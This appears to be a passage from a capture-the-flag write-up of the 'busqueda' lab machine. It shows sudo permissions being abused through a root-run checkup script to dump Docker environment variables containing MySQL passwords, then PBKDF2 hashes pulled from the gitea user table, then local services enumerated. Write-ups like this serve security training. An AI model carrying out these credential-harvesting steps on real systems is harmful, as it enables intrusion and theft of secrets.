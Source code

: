 ```console
Matching Defaults entries for svc on busqueda:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_ptyUser svc may run the following commands on busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

I'm able to run `docker-inspect` via the script in Sudo, which reveals two passwords:

```console
svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq
...

    "Env": [
      "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
      "MYSQL_USER=gitea",
      "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
      "MYSQL_DATABASE=gitea",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "GOSU_VERSION=1.14",
      "MYSQL_MAJOR=8.0",
      "MYSQL_VERSION=8.0.31-1.el8",
      "MYSQL_SHELL_VERSION=8.0.31-1.el8"
    ],
...
```

And I find some hashes via MariaDB:

```console
mysql> select name, salt, passwd, passwd_hash_algo from user;
+---------------+----------------------------------+------------------------------------------------------------------------------------------------------+------------------+
| name          | salt                             | passwd                                                                                               | passwd_hash_algo |
+---------------+----------------------------------+------------------------------------------------------------------------------------------------------+------------------+
| administrator | a378d3f64143b284f104c926b8b49dfb | ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2 | pbkdf2           |
| cody          | d1db0a75a18e50de754be2aafcad5533 | b1f895e8efe070e184e5539bc5d93b362b246db67f3a2b6992f37888cb778e844c0017da8fe89dd784be35da9a337609e82e | pbkdf2           |
+---------------+----------------------------------+------------------------------------------------------------------------------------------------------+------------------+
2 rows in set (0.00 sec)
```

I spent some time trying to get these hashes in a PBKDF2 format that Hashcat can recognize, but eventually found a faster path.

The target has services listening on `localhost`:

```console
svc@busqueda:~$ netstat -lnpt4
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:37247         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:222           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      1652/python3
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
```
